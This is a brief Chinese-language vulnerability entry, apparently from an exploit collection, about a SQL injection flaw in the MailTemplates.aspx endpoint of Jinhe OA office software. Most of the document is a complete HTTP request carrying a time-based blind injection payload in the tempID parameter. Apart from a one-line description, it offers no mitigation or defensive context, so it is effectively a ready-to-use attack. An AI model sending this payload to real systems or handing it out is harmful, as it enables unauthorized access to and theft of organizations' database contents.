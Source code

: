 **漏洞描述：**

金和OA MailTemplates.aspx接口存在SQL注入漏洞，攻击者可以通过注入恶意SQL语句非法获取数据库数据

**影响版本：**

金和OA

**Payload：**

```yaml
GET /C6/JHSoft.Web.Mail/MailTemplates.aspx/?tempID=1%3BWAITFOR+DELAY+%270%3A0%3A3%27-- HTTP/1.1
Host: you_ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

---
